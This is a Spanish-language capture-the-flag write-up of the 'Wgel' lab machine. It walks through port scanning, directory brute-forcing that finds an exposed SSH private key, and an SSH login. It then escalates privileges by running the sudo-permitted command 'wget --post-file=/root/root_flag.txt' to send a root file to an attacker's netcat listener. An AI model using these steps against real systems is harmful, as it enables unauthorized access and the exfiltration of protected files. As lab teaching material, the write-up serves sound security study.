


# Wgel CTF

## ENUMERACION

### ESCANEO DE PUERTOS

En primer lugar, para verificar la conectividad con nuestra máquina objetivo antes de realizar cualquier otro paso, podemos ejecutar un comando **ping** que envía un único paquete a la dirección IP que queremos verificar.


```
ping -c1 {ip_address}
```


Después de haber realizado la verificación mencionada previamente, pasamos a llevar a cabo un escaneo de puertos utilizando la herramienta **nmap**. Para realizar esto, en el entorno de Kali Linux, ejecutamos el siguiente comando con privilegios de administrador y especificamos la dirección IP de la máquina objetivo.


```
sudo nmap -sCV -p21,22,80 {ip_address} -oN /home/kali/Desktop/THM/Wgel/targeted
```


<figure><figcaption></figcaption></figure>

En el ejemplo que se muestra, se han identificado dos puertos abiertos en el sistema en cuestión:

* **Puerto 22/TCP SSH**: El puerto 22 se encuentra abierto y está siendo utilizado por el protocolo SSH (Secure Shell). SSH se utiliza para proporcionar acceso seguro a través de una red, y es comúnmente utilizado para administrar sistemas remotos de forma segura. SSH permite la autenticación y el cifrado de la comunicación, lo que garantiza una conexión segura entre el cliente y el servidor.
* **Puerto 80/TCP HTTP**: El puerto 80 también está abierto y se utiliza para el tráfico HTTP (Hypertext Transfer Protocol). El protocolo HTTP se utiliza para la transferencia de información en la World Wide Web. En este caso, se menciona que Apache está siendo ejecutado en este puerto, lo que indica que se trata de un servidor web que utiliza el software Apache para servir páginas web.

Dado que no se disponen de las credenciales necesarias para acceder a SSH, es posible que nuestras opciones sean limitadas en cuanto a lo que podemos hacer directamente a través de este puerto. Por lo tanto, la sugerencia es examinar el sitio web alojado en el puerto 80 para obtener más información.

### PUERTO 80/TCP HTTP

Para comenzar nuestra investigación, accedemos al sitio web utilizando la dirección IP en nuestro navegador. Al observar la página, notamos que se trata de una página predeterminada del servidor Apache 2. A simple vista, no obtenemos mucha información relevante sobre nuestra máquina objetivo, por lo que decidimos adentrarnos en la inspección del código fuente de la página para descubrir cualquier detalle útil.

<figure><figcaption></figcaption></figure>

Durante la inspección del código fuente de la página, encontramos una línea que llama nuestra atención debido a la información que contiene. Esta línea menciona un nombre, el cual podría ser el nombre de usuario necesario para acceder a nuestra máquina objetivo a través del protocolo SSH. Esta pista es particularmente relevante, ya que el acceso SSH nos permitiría interactuar directamente con el sistema operativo de la máquina y potencialmente obtener un mayor nivel de control y acceso a la misma.

<pre data-line-numbers><code>&#x3C;!-- <a data-footnote-ref href="#user-content-fn-1">Jessie </a>don't forget to udate the webiste -->
</code></pre>

Dado que solo hemos obtenido el nombre de usuario como información hasta el momento, vamos a llevar a cabo un análisis de directorios utilizando la herramienta gobuster en la URL correspondiente. Este análisis nos permitirá descubrir posibles directorios y archivos ocultos en el servidor web de la máquina objetivo, lo cual podría brindarnos información adicional relevante.


```
gobuster dir -u http://10.10.147.250/sitemap -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,zip,ssh
```


<figure><figcaption></figcaption></figure>

Durante el análisis, se observa que se ha encontrado una página llamada **sitemap** que resulta interesante y que vamos a investigar más a fondo en busca de información relevante

<figure><figcaption></figcaption></figure>

Sin embargo, al investigar esta página no se obtiene ningún resultado significativo. Ante esta situación, decidimos volver a realizar otro análisis de directorios utilizando nuevamente la herramienta **gobuster** en la URL.

<figure><figcaption></figcaption></figure>

Durante este nuevo análisis, nos encontramos que **sitemap** oculta un archivo llamado **.ssh** que guarda otro archivo llamado **id\_rsa**. Este archivo en particular es una clave privada cifrada.

<figure><figcaption></figcaption></figure>

Dado que hemos encontrado la clave privada, decidimos guardarla en nuestro equipo en un archivo llamado **id\_rsa**. Esta clave privada será utilizada posteriormente para acceder a la máquina objetivo a través del protocolo **SSH**.

Utilizamos el comando `chmod 600 /ruta/id_rsa` para otorgarle permisos específicos. De esta forma el archivo **id\_rsa** solo será accesible por el propietario y no por otros usuarios o grupos.

Una vez que hayamos cambiado los permisos del archivo y lo hayamos configurado adecuadamente, podremos utilizar esta clave privada para acceder a la máquina objetivo mediante SSH.

### PUERTO 22/TCP SSH

Ahora que hemos obtenido las posibles credenciales para acceder a nuestra máquina a través de SSH, procederemos a verificar el acceso utilizando el siguiente comando.

```
ssh -i id_rsa jessie@<ip_address>
```

<figure><figcaption></figcaption></figure>

La conexión es correcta, así que ya estamos dentro de la maquina objetivo nuestro siguiente paso será buscar nuestra primera bandera. Vamos a utilizar el comando `ls -lAh *`, este comando nos mostrará una lista detallada de todos los archivos y directorios en el directorio actual, incluyendo aquellos que están ocultos.

Observamos que dentro del directorio **Documents** se encuentra un archivo llamado **user\_flag.txt**. Para acceder a este archivo y verificar su contenido, vamos a utilizar el comando `cd` para navegar hasta el directorio donde se encuentra y luego utilizaremos el comando `cat`.

<figure><figcaption></figcaption></figure>

En efecto, al examinar el contenido del archivo **user\_flag.txt**, hemos logrado encontrar nuestra primera bandera, conocida como la **bandera de usuario**.&#x20;

ESCALAR PRIVILEGIOS

Realizamos una breve enumeración utilizando el comando `sudo -l` y descubrimos que tenemos permisos para ejecutar el comando **wget**. Vamos a intentar explotar el comando wget para conseguir nuestra ultima bandera.

<figure><figcaption></figcaption></figure>

Necesitaremos configurar la escucha en el puerto 4445 utilizando netcat en el entorno local. Esto implica iniciar una instancia de netcat en modo de escucha en el puerto mencionado, lo que nos permitirá recibir conexiones entrantes y transferir datos.

<figure><figcaption></figcaption></figure>

Una vez que la escucha está activa, podemos utilizar el comando **wget** junto con el parámetro `--post-file` para enviar un archivo hacia una dirección IP específica, en nuestro caso, la dirección IP de nuestra VPN. Este comando nos permite enviar el archivo especificado en la ruta indicada a la ubicación deseada.

<pre data-line-numbers><code><strong>sudo /usr/bin/wget --post-file=/root/root_flag.txt http://{ip_local}:4445
</strong></code></pre>

Esperamos a que se establezca la conexión y observamos que nuestra máquina local ha recibido el contenido del archivo **root\_flag.txt**, el cual contiene la respuesta para nuestra última bandera.

<figure><figcaption></figcaption></figure>

[^1]: 
